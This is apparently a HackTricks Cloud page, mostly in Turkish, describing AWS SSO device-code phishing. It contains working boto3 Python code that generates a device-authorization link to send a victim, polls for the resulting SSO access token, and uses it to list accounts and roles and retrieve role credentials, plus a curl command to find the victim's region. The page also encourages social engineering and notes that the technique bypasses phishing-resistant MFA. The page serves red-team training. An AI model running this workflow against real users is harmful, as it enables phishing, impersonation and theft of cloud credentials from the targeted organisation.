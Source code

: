 # AWS - Kimlik Merkezi & SSO Yetkisiz Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## AWS Cihaz Kodu Phishing

Başlangıçta [**bu blog yazısında**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) önerilen, AWS SSO kullanarak bir kullanıcıya **bağlantı** göndermek mümkündür; eğer **kullanıcı kabul ederse**, saldırgan **kullanıcıyı taklit etmek için bir token** alabilir ve kullanıcının **Kimlik Merkezi**'nde erişebileceği tüm rollere erişebilir.

Bu saldırıyı gerçekleştirmek için gereksinimler şunlardır:

* Kurbanın **Kimlik Merkezi**'ni kullanması gerekir
* Saldırgan, kurbanın kullandığı **alt alan adını** bilmelidir `<victimsub>.awsapps.com/start`

Sadece önceki bilgilerle, **saldırgan kullanıcıya bir bağlantı gönderebilir**; eğer **kabul edilirse**, **saldırgana AWS kullanıcı** hesabına erişim sağlar.

### Saldırı

1. **Alt alan adını bulma**

Saldırganın ilk adımı, kurban şirketinin Kimlik Merkezi'nde kullandığı alt alan adını bulmaktır. Bu, **OSINT** veya **tahmin + BF** ile yapılabilir, çünkü çoğu şirket burada adını veya adının bir varyasyonunu kullanacaktır.

Bu bilgiyle, Kimlik Merkezi'nin yapılandırıldığı bölgeyi almak mümkündür:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Kurban için bağlantıyı oluşturun ve gönderin**

Kurbanın kimlik doğrulaması yapabilmesi için bir AWS SSO giriş bağlantısı oluşturmak üzere aşağıdaki kodu çalıştırın.\
Demo için, bu kodu bir python konsolunda çalıştırın ve çıkmayın çünkü daha sonra token almak için bazı nesnelere ihtiyacınız olacak:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Gönderilen bağlantıyı kurbanın dikkatini çekmek için harika sosyal mühendislik becerilerinizi kullanarak iletin!

3. **Kurbanın kabul etmesini bekleyin**

Eğer kurban **zaten AWS'de oturum açmışsa**, sadece izinleri vermeyi kabul etmesi yeterli olacaktır; eğer oturum açmamışsa, **giriş yapması ve ardından izinleri vermeyi kabul etmesi** gerekecektir.\
Bu, günümüzdeki istemin görünümüdür:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO erişim token'ını alın**

Eğer kurban istemi kabul ettiyse, **kullanıcıyı taklit ederek bir SSO token'ı oluşturmak için bu kodu çalıştırın**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO erişim belirteci **8 saat geçerlidir**.

5. **Kullanıcıyı taklit et**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Önceki saldırının **"unphisable MFA" (webAuth) kullanılsa bile çalıştığını** bilmek eğlenceli. Bunun nedeni, önceki **iş akışının kullanılan OAuth alanını asla terk etmemesidir**. Kullanıcının giriş alanını değiştirmesi gereken diğer phishing saldırılarının aksine, cihaz kodu iş akışı, **bir cihaz tarafından bilinen bir kodun** hazırlandığı bir durumdur ve kullanıcı farklı bir makinede bile giriş yapabilir. İstemi kabul ederse, cihaz, sadece **ilk kodu bilerek**, kullanıcının **kimlik bilgilerini** **geri alabilecektir**.

Daha fazla bilgi için [**bu gönderiye göz atın**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
